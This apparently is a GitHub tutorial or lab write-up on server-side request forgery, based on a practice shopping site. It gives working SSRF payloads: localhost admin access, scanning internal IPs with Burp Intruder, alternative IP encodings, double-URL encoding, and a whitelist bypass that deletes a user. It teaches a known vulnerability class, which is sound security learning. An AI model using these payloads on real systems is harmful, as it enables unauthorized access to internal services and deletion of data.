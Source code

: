 Server side request forgery is a web application vulnerability that allows the server side aplication to make  HTTP requests to an arbitrary domain of the attacker's choosing.

#### SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface.
This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.
for example:
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
````
The above shopping application checks its stock status by requesting various back-end REST APIs so the request goes into the "stockApi" variable through frontend HTTP requests and 
by modiifng the "stockApi" variable into "http://localhost/admin"
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
````
Now if u can delete a user by "http://localhost/admin/delete?username=user1"

#### SSRF attacks against other back-end systems
Another type of trust relationship that often arises with server-side request forgery is where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses. Since the back-end systems are normally protected by the network topology, they often have a weaker security posture.
````
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://IP/admin
**To find the correct IP octate try passing it to intruder and then add the payload to the required octate(192.168.0.1 here .1) change the payload type to Numbers 1-255.**
````
#### SSRF with blacklist-based input filters
Some applications block input containing hostnames like 127.0.0.1 and localhost, or sensitive URLs like /admin. In this situation, you can often circumvent the filter using various techniques:

Using an alternative IP representation of 127.0.0.1, such as 2130706433, 017700000001, or 127.1.
Registering your own domain name that resolves to 127.0.0.1. You can use spoofed.burpcollaborator.net for this purpose.
Obfuscating blocked strings using URL encoding or case variation.
example:-
Example from the line13 try changing the stockapi to http://127.1/admin and if that didnt work try using the Double-URL encoding for a in admin. 

#### SSRF with whitelist-based input filters
````
1.Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
2.Change the URL in the stockApi parameter to http://127.0.0.1/ and observe that the application is parsing the URL, extracting the hostname, and validating it against a whitelist.
3.Change the URL to http://username@stock.weliketoshop.net/ and observe that this is accepted, indicating that the URL parser supports embedded credentials.
4.Append a # to the username and observe that the URL is now rejected.
5.Double-URL encode the # to %2523 and observe the extremely suspicious "Internal Server Error" response, indicating that the server may have attempted to connect to "username".
6.Change the URL to http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos to access the admin interface and delete the target user.
````








